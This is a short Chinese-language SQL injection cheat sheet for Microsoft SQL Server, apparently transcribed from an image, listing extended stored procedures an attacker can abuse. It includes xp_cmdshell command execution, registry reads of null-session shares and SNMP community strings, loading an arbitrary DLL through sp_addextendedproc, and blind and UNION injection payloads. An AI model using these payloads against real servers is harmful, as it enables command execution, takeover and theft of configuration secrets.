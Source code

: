##### SQL Server 的存储过程 (S) 

1. 命令执行 (**xp_cmdshell**)  `exec master..xp_cmdshell 'dir'`

2. 注册表 相关(xp_regread) 

3. 1. xp_regaddmultistring 
   2. xp_regdeletekey 
   3. xp_regdeletevalue 
   4. xp_regenumkeys 
   5. xp_regenumvalues 
   6. xp_regread 
   7. xp_regremovemultistring 
   8. xp_regwrite
      exec xp_regread HKEY_LOCAL_MACHINE, 'SYSTEM\CurrentControlSet\Services\lanmanserver\parameters', 'nullsessionshares'
      exec xp_regenumvalues HKEY_LOCAL_MACHINE, 'SYSTEM\CurrentControlSet\Services\snmp\parameters\validcommunities' 

4. 服务管理 (**xp_servicecontrol**) 

5. 媒体 (**xp_availablemedia**) 

6. ODBC 资源 (**xp_enumdsn**) 

7. 登录模块 (**xp_loginconfig**) 

8. 创建 Cab 文件 (**xp_makecab**) 

9. 域枚举 (**xp_ntsec_enumdomains**) 

10. kill 进程 (*需要 PID*) (**xp_terminate_process**) 

11. 增加新的存储过程 (可以执行任何你想做的)
    sp_addextendedproc ‘xp_webserver’, ‘c:\temp\x.dll’ exec xp_webserver 

12. 将文本内容写入 UNC 或 内部路径 (sp_makewebtask) 

##### MSSQL Bulk 提示 

> SELECT * FROM master..sysprocesses /*WHERE spid=@@SPID*/ 
>
> DECLARE @result int; EXEC @result = xp_cmdshell 'dir *.exe';IF (@result = 0) SELECT 0 ELSE SELECT 1/0

HOST_NAME() 

IS_MEMBER (Transact-SQL) 

IS_SRVROLEMEMBER (Transact-SQL) 

OPENDATASOURCE (Transact-SQL) 

> INSERT tbl EXEC master..xp_cmdshell OSQL /Q"DBCC SHOWCONTIG"

你不能在 SQL Server 的插入语句中使用子查询

##### SQL 中使用 LIMIT (M) 或 ORDER (MSO)

> SELECT id, product FROM test.test t LIMIT 0,0 UNION ALL SELECT 1,'x'/*,10 ;
